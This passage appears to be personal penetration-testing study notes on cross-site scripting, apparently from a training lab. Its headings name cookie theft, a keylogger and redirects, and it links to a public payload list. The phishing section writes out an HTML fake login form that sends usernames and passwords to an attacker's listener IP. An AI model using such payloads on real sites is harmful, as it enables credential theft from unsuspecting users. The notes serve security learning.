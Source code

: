 >[!code]- XSS payloads
>###### Payloads to verify XSS existence
>```powershell
>Payload list: https://raw.githubusercontent.com/payloadbox/xss-payload-list/refs/heads/master/Intruder/xss-payload-list.txt
>```
>![Pasted image 20250329054259](Images/Pasted%20image%2020250329054259.png)
>![Pasted image 20250329061109](Images/Pasted%20image%2020250329061109.png)
>![Pasted image 20250329061125](Images/Pasted%20image%2020250329061125.png)
>
>###### Reflected XSS payloads
>Context for the payload
>
>![Pasted image 20250329064033](Images/Pasted%20image%2020250329064033.png)
>Steal a cookie
>
>![Pasted image 20250329063836](Images/Pasted%20image%2020250329063836.png)
>Keylogger
>
>![Pasted image 20250329063908](Images/Pasted%20image%2020250329063908.png)
>Fake login form (phishing)
>
>![Pasted image 20250329063942](Images/Pasted%20image%2020250329063942.png)
>Redirect to a malicious, identical-looking webpage
>
>![Pasted image 20250329065337](Images/Pasted%20image%2020250329065337.png)
>###### DOM XSS
>Context for the payload - a vulnerable HTML page has JS code which updates the content of a HTML with whatever is placed after the hash in the URL
>
>![Pasted image 20250329070428](Images/Pasted%20image%2020250329070428.png)
>An attacker can place a malicious payload after the hash, which would cause the (client-side) JS compiler to insert the payload within the pre-defined HTML tag. When the page is loaded, the JS payload is ran.
>
>![Pasted image 20250329070541](Images/Pasted%20image%2020250329070541.png)
>The payload could be more malicious - like cookie stealing, as seen in the Reflected XSS payloads section
>
>![Pasted image 20250329070626](Images/Pasted%20image%2020250329070626.png)
>For when `.innerHTML` is the vulnerable function - don't use `<script>` as it won't accept it. Instead use:
>
>![Pasted image 20250329123416](Images/Pasted%20image%2020250329123416.png)
>
>###### Other
>
>![Pasted image 20250401055052](Images/Pasted%20image%2020250401055052.png)

>[!code]- Phishing
>###### Identify a working payload
>###### Create a payload which displays a malicious login form
>The form says to `Please login to continue`. Have the completed form send its information to a server we are listening on.
>```html
>\<h3>Please login to continue\</h3>
>\<form action=http://10.10.14.217>
>    \<input type="username" name="username" placeholder="Username">
>    \<input type="password" name="password" placeholder="Password">
>    \<input type="submit" name="submit" value="Login">
>\</form>
>```
>###### Identify the `id` of the pre-existing HTML
>If we know the `id` (eg 'urlform') of the HTML item to remove, we can remove it with: